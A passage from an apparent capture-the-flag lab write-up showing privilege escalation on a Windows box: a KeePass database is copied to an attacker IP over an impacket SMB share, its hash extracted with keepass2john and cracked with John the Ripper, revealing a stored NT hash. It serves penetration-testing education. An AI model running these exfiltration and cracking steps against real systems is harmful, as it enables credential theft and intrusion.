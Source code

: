 ![Printing the user flag](attachments/Pasted image 20220628201356.png)
## Privilege Escalation by Cracking the Password for a Keepass Wallet
---
By performing some manual enumeration with kohsuke's home directory, we find a kdbx file in C:\\Users\\kohsuke\\Documents:

![Locating the kdbx file in the Documents directory](attachments/Pasted image 20220628201549.png)

Files with the kdbx extension are used to store the database of passwords for the keepass password manager. If we are able to crack the password for the keepass file, we may find some sensitive information that could help us to escalate privileges on the target machine.

Before we can attempt to crack the password for the kdbx file, we must transfer it to our attacking machine. We can transfer this file to our machine using smb with impacket's smb server tool. To start an smb server with the share name "kali" on our attacking machine, we can use the following command: `impacket-smbserver kali . -smb2support`

![Starting an SMB server for file exfiltration](attachments/Pasted image 20220628202058.png)
We can then issue the following command from the target machine to copy the keepass file back to our attacking machine: `cp .\CEH.kdbx \\10.10.14.14\kali\CEH.kdbx`

Now that we have the kdbx file downloaded from the target machine, we must extract the hash from the kdbx file before we can attempt to crack the password for the keepass wallet. In order to extract the hash, we can use a file called keepass2john:

![Extracting the kdbx file's password hash](attachments/Pasted image 20220628202553.png)
In plaintext, this is the hash we have received: `CEH:$keepass$*2*6000*0*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b73766b61e656351c3aca0282f1617511031f0156089b6c5647de4671972fcff*cb409dbc0fa660fcffa4f1cc89f728b68254db431a21ec33298b612fe647db48`

We can then attempt to crack the password contained in the keepass file by using John the Ripper with the following command: `john --wordlist=/usr/share/wordlists/rockyou.txt ./keepass.hash`

John successfully cracks the hash to show us that the password for the keepass wallet is `moonshine1`:

![Cracking the keepass password](attachments/Pasted image 20220628203053.png)
We can now use the `kpcli -kdb ./CEH.kdbx` command in order to read what is stored in the keepass file. We will be prompted for a password, where we can enter the password (`moonshine1`) that we found above. Upon reading the file, we can list its contents to see that there is a /CEH directory. If we list this directory, we can see that there is a list of entries that are stored within the keepass database:

![Listing the keepass entries](attachments/Pasted image 20220628203547.png)

We can then begin to list the contents of each entry one-by-one to see if they contain any useful information. We use the `show -f <index>` command to list the entry contents. In the entry at index 0 (named "Backup Stuff"), we can see what appears to be an NT hash:

![Discovering an NT hash in the keepass database](attachments/Pasted image 20220628203904.png)
